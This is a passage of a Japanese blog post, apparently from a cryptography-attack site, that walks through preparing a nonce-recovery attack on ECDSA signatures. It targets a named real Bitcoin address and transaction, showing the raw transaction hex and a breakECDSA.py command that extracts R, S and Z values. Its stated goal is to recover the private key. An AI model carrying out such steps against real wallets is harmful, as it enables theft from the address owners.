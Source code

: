 <hr class="wp-block-separator has-alpha-channel-opacity"/>



<p>詳細な暗号解析により、同じビットコイン アドレスの<strong><a href="https://btc1.trezor.io/tx/e5bb4aba7dc061059ac163e2dd62b4b025454f5db85e4ec65f45edee97d91393" target="_blank" rel="noreferrer noopener">e5bb4aba7dc061059ac163e2dd62b4b025454f5db85e4ec65f45edee97d91393</a></strong>にも重大な脆弱性が見つかりました。<strong><code>&nbsp;TXID:</code></strong><strong><a href="https://btc1.trezor.io/tx/e5bb4aba7dc061059ac163e2dd62b4b025454f5db85e4ec65f45edee97d91393" target="_blank" rel="noreferrer noopener"></a></strong></p>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<h2>攻撃に備えて RawTX を準備する</h2>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<blockquote class="wp-block-quote">
<p><strong><a href="https://btc1.trezor.io/address/1HYDQRwXbvVYpmDn6kGJ6kjyewvtyz1CL5" target="_blank" rel="noreferrer noopener">1HYDQRwXbvVYpmDn6kGJ6kjyewvtyz1CL5</a></strong></p>



<figure class="wp-block-embed"><div class="wp-block-embed__wrapper">
https://btc1.trezor.io/tx/e5bb4aba7dc061059ac163e2dd62b4b025454f5db85e4ec65f45edee97d91393
</div></figure>
</blockquote>



<figure class="wp-block-image"><img src="https://cryptodeep.ru/wp-content/uploads/2022/10/image-19-1024x95.png" alt="Frey-Rück 攻撃を実装して、秘密鍵「K」 (NONCE) を取得します。" class="wp-image-851"/></figure>



<pre class="wp-block-code"><code>RawTX = 01000000015369985c4db3fc4fb6b7671a58f4858a20c11922b8a84cecdefd4687f105362a0e0000006c493046022100cda94253bf560fbb22c5dfd6b6d8d2f58d6401bfdca0a7e1dde84e3b2186b0e8022100ab8ea68d18501eee92408390e9fffd5f5a5b029821f09f4a2914b84ad842897501210273376122cb37be518f8f47085978fda04eb7ced923b00d055b581b6fc2b179ffffffffff010000000000000000046a02585900000000
</code></pre>



<h2>ここで、すべての脆弱なトランザクションからすべての R、S、Z 値を取得する必要があります</h2>



<p>breakECDSA.py スクリプトを使用してみましょう</p>



<pre class="wp-block-code"><code>python2 breakECDSA.py 01000000015369985c4db3fc4fb6b7671a58f4858a20c11922b8a84cecdefd4687f105362a0e0000006c493046022100cda94253bf560fbb22c5dfd6b6d8d2f58d6401bfdca0a7e1dde84e3b2186b0e8022100ab8ea68d18501eee92408390e9fffd5f5a5b029821f09f4a2914b84ad842897501210273376122cb37be518f8f47085978fda04eb7ced923b00d055b581b6fc2b179ffffffffff010000000000000000046a02585900000000
</code></pre>



<figure class="wp-block-image"><img src="https://cryptodeep.ru/wp-content/uploads/2022/10/image-60-1024x252.png" alt="Frey-Rück 攻撃を実装して、秘密鍵「K」 (NONCE) を取得します。" class="wp-image-1006"/></figure>
